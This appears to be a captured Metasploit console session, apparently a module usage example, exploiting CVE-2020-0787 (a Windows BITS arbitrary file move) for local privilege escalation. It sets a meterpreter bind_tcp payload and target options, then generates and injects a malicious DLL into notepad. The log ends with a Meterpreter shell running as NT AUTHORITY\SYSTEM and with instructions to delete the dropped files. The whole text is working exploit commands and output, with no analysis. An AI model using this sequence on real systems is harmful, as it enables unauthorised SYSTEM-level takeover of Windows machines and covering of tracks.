 ```
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set RHOST 172.22.189.98
RHOST => 172.22.189.98
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set LPORT 6666
LPORT => 6666
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > show options

Module options (exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   JOB_WAIT_TIME  60               yes       Time to wait for the BITS job to complete before starting the USO service to execute the uploaded payload, in seconds
   OVERWRITE_DLL  false            yes       Overwrite WindowsCreDeviceInfo.dll if it exists (false by default).
   SESSION        1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     6666             yes       The listen port
   RHOST     172.22.189.98    no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Windows DLL Dropper


msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > exploit

[*] Step #1: Checking target enviroment...
[*] Step #2: Generating the malicious DLL...
[*] Payload DLL is 5120 bytes long
[*] Step #3: Loading the exploit DLL to run the main exploit...
[*] Launching notepad to host the exploit...
[+] Process 660 launched.
[*] Reflectively injecting the exploit DLL into 660...
[*] Injecting DLL into 660...
[*] DLL injected. Executing injected DLL...
[*] Sleeping for 60 seconds to allow the exploit to run...
[*] Step #4: Attempting to start the USO service to trigger the payload...
[*] Launching notepad to host the exploit...
[+] Process 792 launched.
[*] Remember to migrate to another SYSTEM process, then find the PID of usocoreworker.exe and delete it.
[*] Finally, delete the file at C:\Windows\System32\WindowsCoreDeviceInfo.dll
[*] Also be sure to delete the most recently created directory under C:\Users\normal\AppData\Local\Temp!
[*] Started bind TCP handler against 172.22.189.98:6666
[*] Sending stage (201283 bytes) to 172.22.189.98
[*] Meterpreter session 2 opened (0.0.0.0:0 -> 172.22.189.98:6666) at 2020-06-08 07:08:09 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-NRCNIDN
OS              : Windows 10 (10.0 Build 18363).
```
